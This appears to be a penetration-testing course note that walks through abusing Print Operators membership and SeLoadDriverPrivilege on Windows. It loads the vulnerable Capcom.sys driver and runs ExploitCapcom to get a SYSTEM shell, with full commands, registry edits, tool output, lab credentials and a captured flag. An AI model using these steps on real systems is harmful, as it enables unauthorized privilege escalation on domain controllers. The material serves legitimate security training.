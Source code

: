 # Print Operators

Print Operators is another highly privileged group, which grants its members the SeLoadDriverPrivilege, rights to manage, create, share, and delete printers connected to a Domain Controller, as well as the ability to log on locally to a Domain Controller and shut it down. 

## Leverage Print Operators belonging using Capcom

1) Confirming Privileges

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name           Description                          State
======================== =================================    =======
SeIncreaseQuotaPrivilege Adjust memory quotas for a process   Disabled
SeChangeNotifyPrivilege  Bypass traverse checking             Enabled
SeShutdownPrivilege      Shut down the system                 Disabled
```

2) Checking Privileges Again

open an administrative command shell

```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================  ==========
SeMachineAccountPrivilege     Add workstations to domain           Disabled
SeLoadDriverPrivilege         Load and unload device drivers       Disabled
SeShutdownPrivilege           Shut down the system			       Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
```
3) Use the driver Capcom.sys to execute shell

https://raw.githubusercontent.com/3gstudent/Homework-of-C-Language/master/EnableSeLoadDriverPrivilege.cpp

Adding the include below :

```
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```

4) Compile with cl.exe

```
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp

Microsoft (R) C/C++ Optimizing Compiler Version 19.28.29913 for x86
Copyright (C) Microsoft Corporation.  All rights reserved.

EnableSeLoadDriverPrivilege.cpp
Microsoft (R) Incremental Linker Version 14.28.29913.0
Copyright (C) Microsoft Corporation.  All rights reserved.

/out:EnableSeLoadDriverPrivilege.exe
EnableSeLoadDriverPrivilege.obj
```

5) Add Reference to Driver

https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys

```
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
The operation completed successfully.
```

```
reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1

The operation completed successfully.
```

6) Verify Driver is not Loaded

http://www.nirsoft.net/utils/driverview.html

```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom
```

7) Verify Privilege is Enabled

```
EnableSeLoadDriverPrivilege.exe

whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege        Disabled
SeLoadDriverPrivilege            Enabled
SeShutdownPrivilege              Disabled
SeChangeNotifyPrivilege          Enabled by default
SeIncreaseWorkingSetPrivilege    Disabled
NTSTATUS: 00000000, WinError: 0
```

8) Verify Capcom Driver is Listed

```
.\DriverView.exe /stext drivers.txt
cat drivers.txt | Select-String -pattern Capcom

Driver Name           : Capcom.sys
Filename              : C:\Tools\Capcom.sys
```

9) Use ExploitCapcom Tool to Escalate Privileges

```
.\ExploitCapcom.exe

[*] Capcom.sys exploit
[*] Capcom.sys handle was obained as 0000000000000070
[*] Shellcode was placed at 0000024822A50008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
```

--> This launches a shell with SYSTEM privileges.

## Alternate Exploitation - No GUI

If no GUI access :

c:\ProgramData\revshell.exe

```
// Launches a command shell process
static bool LaunchShell()
{
    TCHAR CommandLine[] = TEXT("C:\\Windows\\system32\\cmd.exe");
    PROCESS_INFORMATION ProcessInfo;
    STARTUPINFO StartupInfo = { sizeof(StartupInfo) };
    if (!CreateProcess(CommandLine, CommandLine, nullptr, nullptr, FALSE,
        CREATE_NEW_CONSOLE, nullptr, nullptr, &StartupInfo,
        &ProcessInfo))
    {
        return false;
    }

    CloseHandle(ProcessInfo.hThread);
    CloseHandle(ProcessInfo.hProcess);
    return true;
}
```

```
TCHAR CommandLine[] = TEXT("C:\\ProgramData\\revshell.exe");
```

## Automating the Steps

Automating with EopLoadDriver

https://github.com/TarlogicSecurity/EoPLoadDriver/

```
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

## Clean-up

Removing Registry Key

```
reg delete HKCU\System\CurrentControlSet\Capcom

Permanently delete the registry key HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Yes/No)? Yes

The operation completed successfully.
```

## LAB

xfreerdp /v:10.129.43.31 /u:printsvc /p:HTB_@cademy_stdnt!

Run CMD as Administrator

C:\Windows\system32>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== ========
SeMachineAccountPrivilege     Add workstations to domain     Disabled
SeLoadDriverPrivilege         Load and unload device drivers Disabled
SeShutdownPrivilege           Shut down the system           Disabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled


c:\Tools>reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"
Value ImagePath exists, overwrite(Yes/No)? Yes
The operation completed successfully.

c:\Tools>reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
Value Type exists, overwrite(Yes/No)? Yes
The operation completed successfully.

PS C:\Tools> .\DriverView.exe /stext drivers.txt
PS C:\Tools> cat drivers.txt | Select-String -pattern Capcom

c:\Tools>EnableSeLoadDriverPrivilege.exe
whoami:
INLANEFREIGHT0\printsvc

whoami /priv
SeMachineAccountPrivilege                         Disabled
SeLoadDriverPrivilege                             Enabled
SeShutdownPrivilege                               Disabled
SeChangeNotifyPrivilege                           Enabled by default
SeIncreaseWorkingSetPrivilege                     Disabled
NTSTATUS: 00000000, WinError: 0

PS C:\Tools> .\DriverView.exe /stext drivers.txt
PS C:\Tools> cat drivers.txt | Select-String -pattern Capcom

Driver Name       : Capcom.sys
Filename          : C:\Tools\Capcom.sys

c:\Tools>.\ExploitCapcom\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000070
[*] Shellcode was placed at 000001F393330008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program


Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

c:\Tools>type c:\Users\Administrator\Desktop\flag.txt
Pr1nt_0p3rat0rs_ftw!
c:\Tools>